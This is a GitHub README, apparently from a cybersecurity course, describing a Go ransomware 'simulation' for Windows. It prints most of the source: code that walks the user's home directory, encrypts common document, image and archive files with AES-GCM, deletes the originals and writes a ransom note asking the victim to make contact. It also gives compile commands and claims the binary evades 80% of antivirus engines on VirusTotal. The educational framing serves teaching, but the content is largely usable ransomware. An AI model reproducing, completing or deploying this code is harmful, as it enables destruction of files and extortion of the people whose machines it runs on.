


# [malware](https://github.com/01-edu/public/tree/master/subjects/cybersecurity/malware)

This program is a ransomware simulation that encrypts and decrypts files within a specified directory on a Windows machine. It utilizes the AES-GCM (Galois/Counter Mode) algorithm to secure files by appending a `.notgood` extension. The tool includes features for both encryption and decryption, with the encryption key and nonce (a unique value) derived from the machine's MAC address.

## Table of Contents

- [How Ransomware Works](#how-ransomware-works)
- [Impact and Bypassing Antivirus](#impact-and-bypassing-antivirus)
- [Usage](#usage)
  - [Encrypt Files](#encrypt-files)
  - [Decrypt Files](#decrypt-files)
- [Technical Details](#technical-details)
  - [Encryption Process](#encryption-process)
  - [Decryption Process](#decryption-process)
  - [Important Considerations](#important-considerations)
- [Detection Rate](#detection-rate)
- [Code Walkthrough](#code-walkthrough)
- [Setup](#setup)
- [Disclaimer](#disclaimer)

## How Ransomware Works

Ransomware is a type of malicious software designed to encrypt files on a victim's computer, making them inaccessible until a ransom is paid to decrypt them. This simulation demonstrates how ransomware operates by targeting specific file types, encrypting them, and providing instructions to the user on how to retrieve the decryption key.

## Impact and Bypassing Antivirus

This ransomware simulation is designed to demonstrate how ransomware can bypass antivirus software by using techniques such as:

- **Encryption:** Files are encrypted using AES-GCM, a strong encryption method, making detection by signature-based antivirus tools difficult.
- **Obfuscation:** The program generates a unique nonce based on the machine's MAC address, further complicating detection.
- **Behavioral Evasion:** The program avoids detection by not exhibiting typical ransomware behavior until it’s actively running.

## Usage

### Encrypt Files

Open cmd and navigate to the directory where you wish the malware.exe to be executed.

To encrypt files in the target directory, simply run the program without any arguments:

```malware.exe```

This will encrypt all files with the specified extensions in the target directory.

### Decrypt Files

To decrypt the encrypted files, run the program with the `decrypt` argument:

```malware.exe decrypt```

This will restore the original files using the decryption key found in `decryption_key.txt`.

### Demonstration

Below is a GIF demonstrating the encryption and decryption process:



## Technical Details

### Encryption Process

1. **Target Directory:** The program targets the `C:\Users\user\Desktop` directory by default. This can be changed by modifying the `rootDir` variable.

2. **File Types:** The program scans the target directory for files with specific extensions listed in the `extensionsToEncrypt` array (e.g., `.txt`, `.doc`, `.pdf`, etc.).

3. **Encryption:** 
   - A unique nonce is generated using the machine's MAC address and is used along with a fixed encryption key.
   - Files are encrypted using AES-GCM and saved with the `.notgood` extension.
   - The original files are deleted after encryption.

4. **Decryption Info:** A file named `decryption_key.txt` is created on the Desktop, containing instructions on how to retrieve the decryption key.

### Decryption Process

1. **Decryption Key Retrieval:** The program reads the nonce from the `decryption_key.txt` file.

2. **Decryption:**
   - The program scans the directory for files with the `.notgood` extension.
   - Files are decrypted using the AES-GCM algorithm and restored to their original state.
   - The encrypted files are deleted after decryption.

### Important Considerations

- **File Permissions:** Files are created or modified with a permission mode of 644, ensuring they are readable and writable by the owner, and readable by others.
- **MAC Address Dependency:** The decryption process must be performed on the same machine where the files were encrypted, as the nonce is generated based on the MAC address.
- **Responsibility:** Encrypting important files without proper backups or losing the decryption key could result in permanent data loss.

## Detection Rate

This ransomware simulation was tested using VirusTotal:

- **Detection Rate:** 15/75 (20%)

The malware is detected by 20% of antivirus engines, meaning it bypasses detection 80% of the time.



## Code Walkthrough

- ### 1. Constants and Variables
- **Constants:**

  - `encryptedExtension` specifies the extension that will be appended to files after they are encrypted. For example, if a file named `document.txt` is encrypted, it will be renamed to `document.txt.notgood`.

  ```go
  const encryptedExtension = ".notgood"
  ```
  - `decryptionInfoFile` is the name of the file that will be created to store the decryption key and instructions. This file is saved on the desktop.
  ```go
  const decryptionInfoFile = "decryption_key.txt"
  ```
  - `filePermission` is set to `0o644`, which means that the file is readable and writable by the owner, and readable by others.

  ```go
  const filePermission = 0o644
  ```
- **Variables:**

  - `rootDir` defines the directory where the encryption process will start. By default, it's set to `"C:\\Users\\user\\Desktop"`. You can change this path to target a different directory.

  ```go
  var rootDir = "C:\\Users\\user\\Desktop" // Change this to the directory you want to encrypt
  ```
  - `encryptionKey` is a hardcoded key used for AES encryption. It’s a 32-byte key, which is suitable for AES-256 encryption.
  ```go
  var encryptionKey = []byte("abcdefghijklmnopqrstuvwxyz012345")
  ```
  - `extensionsToEncrypt` is a list of file extensions that the program will target for encryption. For example, files with `.txt`, `.pdf`, and `.jpg` extensions will be encrypted.
  ```go
  var extensionsToEncrypt = []string{
      ".txt", ".doc", ".docx", ".pdf", ".rtf",
      ".xlsx", ".xls", ".csv", ".ppt", ".pptx",
      ".mdb", ".accdb", ".jpg", ".jpeg", ".png",
      ".gif", ".bmp", ".zip", ".rar", ".7z",
      ".tar", ".gz", ".tgz", ".mp3", ".wav",
      ".mp4", ".avi", ".mkv", ".mov", ".wmv",
  }
  ```
### 2. Main Function:
The `main` function directs the program based on the command-line arguments provided:

  - **No Arguments:** When the program is executed without any arguments, it initiates the encryption process.
    ```go
    case len(os.Args) == 1:
        userHomeDir, err := os.UserHomeDir()
        if err != nil {
            fmt.Println("Error getting user home directory:", err)
            return
        }
        if !strings.Contains(userHomeDir, "user") {
            rootDir = userHomeDir
        }
        fmt.Println("Encrypting files in", rootDir)
        fmt.Println("This might take some time...")
        encryptFiles()

    ```
  - **Decrypt Argument:** When the program is executed with the `decrypt` argument, it starts the decryption process.
    ```go
    case len(os.Args) == 2 && os.Args[1] == "decrypt":
        decryptFiles()
    ```
  - **Invalid Arguments:** If the arguments do not match any of the expected cases, the program provides usage instructions.
    ```go
    default:
        fmt.Println("Invalid arguments")
        fmt.Println("Usage: run <malware.exe> to encrypt files, run <malware.exe decrypt> to decrypt files")
    ```
### 3. Encryption Process
- **encryptFiles() Function:**

  This function drives the encryption process:

  - **MAC Address Retrieval:** The program retrieves the machine’s MAC address using the `getMACAddress()` function. This address is unique to each machine and is used to generate a nonce for encryption.
  ```go
  macAddress := getMACAddress()
  if macAddress == nil {
      fmt.Println("Error getting mac address")
      return
  }
  ```
  - **Nonce Generation:** A nonce (number used once) is generated from the MAC address to ensure the encryption is unique to the machine.
  ```go
  nonce := generateRandomBytes(macAddress, 12)
  ```
  - **File Walkthrough:** The program then walks through the `rootDir`, checking each file’s extension. If the file has an extension listed in `extensionsToEncrypt`, it is encrypted using the `encryptFile()` function.
  ```go
  _ = filepath.Walk(rootDir, func(path string, info os.FileInfo, err error) error {
      if err != nil {
          fmt.Println("Error walking root directory")
          return err
      }
      if info.IsDir() {
          return nil
      }
      extension := strings.ToLower(filepath.Ext(path))
      if isValidExt(extension) {
          pathToEncrypt := path + encryptedExtension
          encryptFile(path, pathToEncrypt, nonce)
      }
      return nil
  })
  ```
- **encryptFile() Function:**
  This function handles the actual encryption of a file:

  - **Read File Content:** The content of the file is read into memory.
  ```go
  fileBytes, _ := os.ReadFile(path)
  ```
  - **Encrypt Content:** The content is encrypted using the AES-GCM algorithm. The nonce is prepended to the encrypted data.
  ```go
  block, _ := aes.NewCipher([]byte(encryptionKey))
  aescgm, _ := cipher.NewGCM(block)
  encryptedData := aescgm.Seal(nil, nonce, fileBytes, nil)
  encryptedFileBytes := append(nonce, encryptedData...)
  ```
  - **Save Encrypted File:** The encrypted content is saved to a new file with the `.notgood` extension, and the original file is deleted.
  ```go
  _ = os.WriteFile(encryptedPath, encryptedFileBytes, filePermission)
  _ = os.Remove(path)
  ```
- **saveTXTWithNonce() Function:**

    This function creates a text file on the user’s desktop containing the nonce and instructions for decryption.
    ```go
    nonceHex := hex.EncodeToString(nonce)
    msg := fmt.Sprintf("All of your files have been encrypted. \n To unlock them contact me with your encryption code in this email@email.com \n Your encryption code is: <%v> ", nonceHex)
    os.WriteFile(decryptKeyPath, []byte(msg), filePermission)
    ```
### 4. Decryption Process
- **`decryptFiles()` Function:**

  This function drives the decryption process:

  - **Nonce Retrieval:** The program reads the nonce from the decryption_key.txt file created during encryption.

  ```go
  nonce := getNonceFromFile()
  if nonce == nil {
      fmt.Println("Failed")
      return
  }
  ```
  - **File Walkthrough:** The program then walks through the rootDir looking for files with the `.notgood` extension. These files are decrypted using the `decryptFile()` function.

    ```go
    _ = filepath.Walk(rootDir, func(path string, info os.FileInfo, err error) error {
        if info.IsDir() {
            return nil
        }
        extension := strings.ToLower(filepath.Ext(path))
        if extension == encryptedExtension {
            decryptPath := strings.TrimSuffix(path, encryptedExtension)
            decryptFile(path, decryptPath, nonce)
        }
        return nil
    })
    ```
- **decryptFile() Function:**

    This function handles the actual decryption of a file:

    - **Read Encrypted Content:** The encrypted file is read into memory, and the nonce is extracted.
    ```go
    encryptFileBytes, _ := os.ReadFile(encryptedPath)
    nonceSize := 12
    if len(encryptFileBytes) < nonceSize {
        fmt.Println("invalid encrypted file")
        return
    }
    cipherText := encryptFileBytes[nonceSize:]
    ```
    - **Decrypt Content:** The content is decrypted using AES-GCM and the extracted nonce.
    ```go
    block, _ := aes.NewCipher([]byte(encryptionKey))
    gcm, _ := cipher.NewGCM(block)
    decryptedData, _ := gcm.Open(nil, nonce, cipherText, nil)
    ```
    - **Save Decrypted File:** The decrypted content is saved to a new file without the .notgood extension, and the encrypted file is deleted.
    ```go
    os.WriteFile(decryptedPath, decryptedData, 0o644)
    os.Remove(encryptedPath)
    ```

## Setup

### 1. **Install VirtualBox:** 

- Download VirtualBox and install it on your host machine.

### 2. **Download Windows 10 ISO:** 

- Obtain the Windows 10 ISO from Microsoft.

### 3. **Create a Virtual Machine:** 

- Set up a new virtual machine using the downloaded Windows 10 ISO.

*Note: You may need to disable the Floppy drive and remove the floppy controller in the VM settings to successfully install Windows.*

### 5. **Enable Host-VM File Communication:** 

- To transfer files between your host and VM, go to the VM window, select Devices -> Insert Guest Additions CD Image, navigate to the CD drive, and run the setup file. Restart the VM afterward. On Virtual box navigate to settings -> Shared Folders -> Add a new shared folder. Select the folder you want to share. This will be visable in the VM under network.

### 6. **Compile the Malware:**

**Compile the malware using the provided source code.**
- linux: ```GOOS=windows GOARCH=amd64 go build malware -o malware.exe```
- windows: ```go build malware.go -o malware.exe```
### 7. **Transfer malware.exe:** 

- Transfer the malware.exe file from repository to the VM.

## Disclaimer

This program is intended for educational purposes only. Use this program on a VM only. Misuse of this tool could lead to legal consequences. Always ensure you have permission to encrypt and decrypt files, and avoid using it on sensitive or critical data without proper backups.

